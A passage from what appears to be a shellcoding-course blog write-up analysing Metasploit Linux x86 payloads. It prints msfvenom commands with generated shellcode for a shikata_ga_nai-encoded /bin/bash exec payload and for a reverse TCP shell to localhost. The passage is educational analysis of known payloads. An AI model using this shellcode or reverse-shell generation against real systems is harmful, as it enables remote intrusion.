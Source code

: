 ![exec](https://github.com/marcosValle/SLAE/blob/master/assignment5/exec.png)


As a bonus, lets see what happens when we try to avoid NULLs.

```
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes
unsigned char buf[] = 
"\xbf\xd1\xf0\xac\xf4\xdb\xc1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x0c\x83\xea\xfc\x31\x7a\x0f\x03\x7a\xde\x12\x59\x9e\xeb\x8a"
"\x3b\x0d\x8d\x42\x11\xd1\xd8\x74\x01\x3a\xa9\x12\xd2\x2c\x62"
"\x81\xbb\xc2\xf5\xa6\x6e\xf3\x0f\x29\x8f\x03\x20\x4b\xe6\x6d"
"\x11\xe9\x99\x02\x05\xed\x0e\xb6\x5c\x0c\x7d\xb8";
```
![exec_no_nulls](https://github.com/marcosValle/SLAE/blob/master/assignment5/exec_no_null.png)

Wow, not exactly what I was expecting. But looking the output more carefully:

     Attempting to encode payload with 1 iterations of x86/shikata_ga_nai

In order to avoid NULL bytes, msfvenom picks an encoder. In this case the infamous `shikata_ga_nai`. So I decided do my homework and check how this encoder works. Despite its frequent use, I could not find so many sources explaining the algorithm. But to not turn this post into a book I made another one dedicated to this subject.

You can find [my shikata_ga_nai analysis here](https://marcosvalle.github.io/re/exploit/2018/08/25/shikata-ga-nai.html)

### linux/x86/shell_reverse_tcp
I have also used the reverse_tcp shellcode when preparing [Assignment#2](https://marcosvalle.github.io/re/exploit/2018/08/20/reverse-shell-tcp.html) and was actually wondering how it works. 

```
msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp -f c
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

![shell_reverse_tcp](https://github.com/marcosValle/SLAE/blob/master/assignment5/shell_reverse_tcp.png)

If you remember from our previous assignment, we used the following functions that were later converted to syscalls:
